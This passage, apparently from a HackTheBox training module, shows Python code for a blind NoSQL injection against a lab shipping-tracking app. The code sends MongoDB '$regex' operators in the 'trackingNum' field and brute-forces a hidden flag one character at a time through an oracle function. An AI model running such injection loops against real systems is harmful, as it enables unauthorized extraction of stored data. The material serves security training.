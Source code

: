 This function will send a POST request to `/index.php` and set the value of `trackingNum` to whatever query we want. It then checks if the response contains the text `bmdyy`, which indicates our query matched our target package.

We can verify if the `oracle` function works as intended with a pair of [assert](https://www.tutorialspoint.com/python3/assertions_in_python.htm) statements that test known answers. In this case, we know there is no tracking number `X`, so we can verify that the oracle returns `False` when it sends a request with `trackingNum: "X"`. Furthermore, we know that there is a tracking number `HTB{.*`, so we can verify that the oracle function returns `True`.

```python
# Make sure the oracle is functioning correctly
assert (oracle("X") == False)
assert (oracle({"$regex": "HTB{.*"}) == True)

```

If we run this and everything is set up correctly, there should be no output. If you have some output, then there is most likely a typo in your code (like in this example, lowercase b instead of B):

```shell
python3 mangopost-exploit.py

Traceback (most recent call last):
  File "/...SNIP.../mangopost-exploit.py", line 18, in <module>
    assert (req({"$regex": "^HTb{.*"}) == True)
AssertionError

```

Once we have the oracle function ready and verified as working correctly, we can proceed to work on actually dumping the tracking number.

For this section, we can assume the tracking number matches the following format: `^HTB\{[0-9a-f]{32}\}$` aka `HTB{` followed by 32 characters \[ `0-9a-f`\] followed by a `}`. Knowing this, we can limit our search to only these characters and significantly reduce the number of requests it will take.

```python
# Dump the tracking number
trackingNum = "HTB{" # Tracking number is known to start with 'HTB{'
for _ in range(32): # Repeat the following 32 times
    for c in "0123456789abcdef": # Loop through characters [0-9a-f]
        if oracle({"$regex": "^" + trackingNum + c}): # Check if <trackingNum> + <char> matches with $regex
            trackingNum += c # If it does, append character to trackingNum ...
            break # ... and break out of the loop
trackingNum += "}" # Append known '}' to end of tracking number

```

This code will generate RegEx queries and use the oracle to dump one character at a time until all the characters are known. Once the code finishes, we can verify that the tracking number is correct with another `assert` and print it out:

```python
# Make sure the tracking number is correct
assert (oracle(trackingNum) == True)

print("Tracking Number: " + trackingNum)

```
